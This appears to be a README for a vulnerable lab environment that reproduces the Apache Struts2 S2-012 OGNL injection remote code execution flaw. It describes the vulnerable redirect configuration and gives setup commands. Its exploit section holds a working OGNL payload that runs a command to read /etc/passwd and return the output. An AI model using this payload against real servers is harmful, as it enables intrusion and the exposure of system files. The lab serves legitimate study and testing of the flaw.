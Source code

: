 # S2-012 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.1.0 - 2.3.13

Details: http://struts.apache.org/docs/s2-012.html

## Refer

If the redirect type is used when configuring `result` in the `action`, and ${param_name} is also used as the redirect variable, for example:

```xml
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

During the redirection process, struts2 performs an OGNL expression parsing on the value of the `name` parameter, so that OGNL expression can be inserted to cause the command execution.

## Setup

```
docker-compose build
docker-compose up -d
```

## Exp

We can use s2-001's POC directly:

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

Result：

![](1.png)
